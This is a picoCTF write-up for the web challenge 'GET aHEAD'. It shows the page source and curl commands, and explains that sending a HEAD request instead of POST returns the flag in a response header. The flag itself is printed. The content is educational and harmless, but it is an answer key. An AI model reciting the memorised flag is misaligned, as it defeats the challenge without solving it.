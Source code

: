 # GET aHEAD
## Category - Web Exploitation
## Author - MADSTACKS

### Description: 
Find the flag being held on this server to get ahead of the competition http://mercury.picoctf.net:53554/

### Solution:
The challenge gives us a link which opens a webpage that allows us to click two buttons. After playing around the website, looking at the source, and checking cookies we don't see
any possible injection points or exploits we can run. Although, looking at the source, we see this:

```html
<!doctype html>
<html>
<head>
    <title>Blue</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
	<style>body {background-color: blue;}</style>
</head>
	<body>
		<div class="container">
			<div class="row">
				<div class="col-md-6">
					<div class="panel panel-primary" style="margin-top:50px">
						<div class="panel-heading">
							<h3 class="panel-title" style="color:red">Red</h3>
						</div>
						<div class="panel-body">
							<form action="index.php" method="GET">
								<input type="submit" value="Choose Red"/>
							</form>
						</div>
					</div>
				</div>
				<div class="col-md-6">
					<div class="panel panel-primary" style="margin-top:50px">
						<div class="panel-heading">
							<h3 class="panel-title" style="color:blue">Blue</h3>
						</div>
						<div class="panel-body">
							<form action="index.php" method="POST">
								<input type="submit" value="Choose Blue"/>
							</form>
						</div>
					</div>
				</div>
			</div>
		</div>
	</body>
</html>
```
The two options of Red and Blue make GET and POST requests to the website. Taking a hint from the name of the challenge "GET aHEAD" and the hint about a third option for us, we
deduce that maybe we can make a HEAD request to the webpage as well. By clicking 'Inspect' on the page and heading to the Network page we can right-click on the request made to 
the index.php page and click Copy > Copy as cURL (bash). Pasting this into our linux terminal and running the command we see the request successfully executes.
```
zerodaytea@DESKTOP-QLQGDSV:/mnt/c/Coding/CTFs$ curl 'http://mercury.picoctf.net:53554/index.php' \
>   -X 'POST' \
>   -H 'Connection: keep-alive' \
>   -H 'Content-Length: 0' \
>   -H 'Cache-Control: max-age=0' \
>   -H 'Origin: http://mercury.picoctf.net:53554' \
>   -H 'Upgrade-Insecure-Requests: 1' \
>   -H 'DNT: 1' \
  -H 'C>   -H 'Content-Type: application/x-www-form-urlencoded' \
>   -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36' \
-H 'Ac>   -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
H 'Ref>   -H 'Referer: http://mercury.picoctf.net:53554/index.php' \
>   -H 'Accept-Language: en-US,en;q=0.9,pl-PL;q=0.8,pl;q=0.7' \
>   --compressed \
>   --insecure

<!doctype html>
<html>
<head>
    <title>Blue</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
        <style>body {background-color: blue;}</style>
</head>
        <body>
                <div class="container">
                        <div class="row">
                                <div class="col-md-6">
                                        <div class="panel panel-primary" style="margin-top:50px">
                                                <div class="panel-heading">
                                                        <h3 class="panel-title" style="color:red">Red</h3>
                                                </div>
                                                <div class="panel-body">
                                                        <form action="index.php" method="GET">
                                                                <input type="submit" value="Choose Red"/>
                                                        </form>
                                                </div>
                                        </div>
                                </div>
                                <div class="col-md-6">
                                        <div class="panel panel-primary" style="margin-top:50px">
                                                <div class="panel-heading">
                                                        <h3 class="panel-title" style="color:blue">Blue</h3>
                                                </div>
                                                <div class="panel-body">
                                                        <form action="index.php" method="POST">
                                                                <input type="submit" value="Choose Blue"/>
                                                        </form>
                                                </div>
                                        </div>
                                </div>
                        </div>
                </div>
        </body>
</html>
```
Simply replacing the -X POST header for a --head will make a HEAD request to the page instead of a POST request and will give us the flag:
```
zerodaytea@DESKTOP-QLQGDSV:/mnt/c/Coding/CTFs$ curl 'http://mercury.picoctf.net:53554/index.php'   --head   -H 'Connecti
on: keep-alive'   -H 'Content-Length: 0'   -H 'Cache-Control: max-age=0'   -H 'Origin: http://mercury.picoctf.net:53554'
   -H 'Upgrade-Insecure-Requests: 1'   -H 'DNT: 1'   -H 'Content-Type: application/x-www-form-urlencoded'   -H 'User-Age
nt: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36'
   -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,applicat
ion/signed-exchange;v=b3;q=0.9'   -H 'Referer: http://mercury.picoctf.net:53554/index.php'   -H 'Accept-Language: en-US,
en;q=0.9,pl-PL;q=0.8,pl;q=0.7'   --compressed   --insecure
HTTP/1.1 200 OK
flag: picoCTF{r3j3ct_th3_du4l1ty_2e5ba39f}
Content-type: text/html; charset=UTF-8
```
### Flag:
```
picoCTF{r3j3ct_th3_du4l1ty_2e5ba39f}
```
